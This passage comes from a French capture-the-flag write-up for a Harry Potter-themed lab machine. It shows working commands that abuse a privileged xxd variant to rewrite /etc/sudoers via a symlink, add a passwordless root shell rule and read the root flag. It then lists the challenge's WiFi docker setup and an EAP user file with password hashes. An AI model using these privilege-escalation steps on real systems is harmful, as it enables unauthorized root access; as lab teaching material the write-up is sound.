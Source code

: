 ```console

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
```

Maintenant, on va utiliser le programme pour réécrire `/etc/sudoers`. Il faut utiliser l'option `-r` qui va transformer le dump hexa vers sa version brute.

Bien sûr, j'ajoute une ligne pour obtenir un accès root :

```console
tom.riddle@MagiFi:/tmp/yolo$ xxd -r out > sudoers
tom.riddle@MagiFi:/tmp/yolo$ echo -e "tom.riddle ALL=(ALL) NOPASSWD: /bin/sh\n#" >> sudoers
tom.riddle@MagiFi:/tmp/yolo$ xxd sudoers > reversed
tom.riddle@MagiFi:/tmp/yolo$ ln -s /etc/sudoers real_sudoers
tom.riddle@MagiFi:/tmp/yolo$ /usr/bin/xxd_horcrux -r reversed real_sudoers -O .horcrux.png
tom.riddle@MagiFi:/tmp/yolo$ sudo /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root_flag_as5df.txt  snap  Sources  Wifi_Docker
# cat root_flag_as5df.txt
hogwarts{5ed0818c0181fe97f744d7b1b51dd9c7}
```

### Revelio

La partie WiFi du challenge est complexe avec des nombreux scripts bashs et fichiers de configuration.

La base est le script `start_containers.sh` qui lance deux containers docker :

```bash
#!/bin/bash

modprobe mac80211_hwsim radios=10

docker run --detach --name aps --rm -it --privileged -v /lib/modules:/lib/modules --net host wifi_aps
docker run --detach --name clients --rm -it --privileged -v /lib/modules:/lib/modules --net host wifi_clients
```

Pour la partie AP voici la configuration EAP légitime :

```console
root@MagiFi:~/Wifi_Docker/APs/config# cat mgt/hostapd_wpe.eap_user 
# WPE - DO NOT REMOVE - These entries are specifically in here 
*               PEAP,TTLS,TLS,FAST
#"t"        TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2  "t"     [2]

*       PEAP,TTLS,TLS,FAST [ver=1]
#"t"    GTC,TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2 "password" [2]

"Hogwarts\rubeus.hagrid"                        MSCHAPV2                "8c6ce3a96e534a2538fcd28d40bac215" [2]
"Hogwarts\albus.dumbledore"                     MSCHAPV2                "08a22c9aecad00dad47d48184b8319ad" [2]
```